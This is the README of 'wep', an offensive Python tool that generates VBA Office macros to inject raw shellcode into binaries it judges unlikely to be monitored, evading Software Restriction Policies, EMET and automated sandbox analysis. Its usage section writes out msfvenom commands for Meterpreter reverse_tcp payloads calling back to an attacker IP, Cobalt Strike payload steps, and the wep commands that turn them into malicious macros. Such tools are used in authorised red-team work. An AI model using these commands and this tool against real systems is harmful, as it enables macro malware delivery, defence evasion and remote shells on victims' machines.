 # wep

wep is proof-of-concept Python script which generates VBA code that can be used in Office macros or templates. It was designed with automation and integration in mind, targeting locked down environment scenarios. The tool enumerates Software Restriction Policies (SRPs) and EMET mitigations and dynamically identifies safe binaries to inject payloads into. wep integrates with existing exploitation frameworks (e.g. Metasploit, Cobalt Strike) and it also accepts any custom payload in raw format.

## Prerequisites

* Python termcolor package. To install run: pip install termcolor

## Command line arguments

To start using wep, first take a look at the options it supports:

```
usage: wep.py [-h] -i86 <x86_shellcode> -i64 <x64_shellcode> [--inject64]   
                   [--out <output_file>] [--msgbox] [--msg <window_message>]

optional arguments:   
  -h, --help            show this help message and exit   
  -i86 <x86_shellcode>  Input x86 raw shellcode   
  -i64 <x64_shellcode>  Input x64 raw shellcode   
  --inject64            Inject into 64 Bit. Set to False when delivering x86   
                        payloads only. Default is True   
  --out <output_file>   File to output the VBA macro to   
  --msgbox              Present messagebox to prevent automated analysis.   
                        Default is True.   
  --msg <window_message>   
                        Custom message to present the victim if --msgbox is   
                        set to True
```

wep requires both 32 and 64 bit raw payloads in order to be able to deliver the appropriate type when it lands on an unknown target. However, if only an x86 architecture is targeted, a dummy 64 bit payload must be provided to replace the missing code. 

In order to defeat certain automated analysis configurations, a message box opens upon execution of the code. The text of the message box can be altered by defining its value in the --msg parameter. To disable this functionality set the --msgbox parameter to False.

Due to performance conditions that may be introduced as a result of long SRPs/EMET policies, wep reads two configuration files (binary-paths.txt and directory-paths.txt) that contain a list of executables and directories which are less likely to be monitored to be checked first. By editing the contents of those files the user can define their own choices instead. If the files are empty, wep will directly start reading the SPRs/EMET policies as these would be defined within the Registry and make its injection choice purely based on the retrieved information.


## Usage examples

The following sections describe some basic usage examples of wep.

### Metasploit payloads

First the payloads for both x86 and x64 architectures in raw format and ensure that the Metasploit listeners are configured appropriately.

`$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -o /payloads/msf86.raw`   
`$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -a x86_64 -o /payloads/msf64.raw`

Then point wep to the generated payloads and direct the output to msf_wepwn.txt

`$ wep.py -i86 /payloads/msf86.raw  -i64 /payloads/msf64.raw --out /payloads/msf_wepwn.txt`

### Cobalt Strike payloads

To generate a raw payload in Cobalt Strike, navigate to the following menu and from the Output dropdown select the Raw format. Repeat the process and enable the x64 checkbox to produce a 64-bit payload.

Attacks > Packages > Payload Generator

Enter the generated payloads into wep to generate the VBA code.

`$ wep.py -i86 /payloads/cs86.raw  -i64 /payloads/cs64.raw  --msgbox False --out /payloads/cs_wepwn.txt`


### Custom payloads

In certain cases it may be the case that only an x86 payload be available. As wep expects both a 32-bit and 64-bit payloads, in order to disable 64-bit injection create a dummy 64-bit file and set the --inject64 parameter to False.

```
$ echo "+" > /payloads/dummy64.raw
$ wep.py -i86 /payloads/custom.raw  -i64 /payloads/dummy64.raw --inject64 False --out /payloads/wepwn86.txt
```

Similarly, to generate 64-bit payloads only, create a dummy x86 file and supply it in wep's -i86 command line paramenter.

## License

wep is released under a 3-clause BSD License and maintained by [MWR InfoSecurity](https://mwrinfosecurity.com)

## Credits
This tool was originally developed by Vincent Yiu ([@vysecurity](https://twitter.com/vysecurity)).
